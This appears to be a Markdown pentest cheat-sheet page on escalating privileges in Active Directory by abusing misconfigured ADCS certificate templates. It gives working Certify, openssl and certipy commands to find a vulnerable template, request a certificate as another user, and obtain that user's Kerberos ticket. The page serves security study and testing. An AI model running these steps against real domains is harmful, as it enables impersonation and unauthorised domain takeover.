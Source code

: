 ```yaml
---
description: A list of LDAP Privileges Escalation Techniques.
---
```


# LDAP - Privileges Escalation

## ADCS: Active Directory Certificate Services

A list of privileges techniques for ADCS.

### Certificate Template Exploit

Certificate templates in **ADCS** (Active Directory Certificate Services) are pre-configured templates that define the parameters for a particular type of certificate that can be issued by the certificate authority (CA).

We can use [Certify.exe](https://github.com/GhostPack/Certify) to find vulnerable certificate template.

```powershell
.\Certify.exe find /vulnerable
```

Request a new certificate with the vulnerable template and try to impersonate.

```powershell
.\Certify.exe request /ca:<AD-CA_name> /template:<Template_name> /altname:<user_you_want_to_impersonate>
```

This will produce a `cert.pem`. Use `openssl` to convert it into `.pfx`.

```bash
# get cert.pfx
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Now ask the TGT using [Certipy](https://github.com/ly4k/Certipy).

```bash
certipy auth -pfx cert.pfx -dc-ip <DC_IP> -u '<user_you_want_to_impersonate>' -domain <domain_name>
```

> :bulb:You can find more information about this subject at links below:
>
> * [0xalwayslucky Gitbook](https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates)
> * [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)

### ADCS privesc Ressources

* [Hacktricks Books ADCS section](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation) ;
* [Certify](https://github.com/GhostPack/Certify): tool to enumerate and abuse misconfigurations in ADCS ;
* [PKINITools](https://github.com/dirkjanm/PKINITtools): some utilities for playing with PKINIT and certificates.

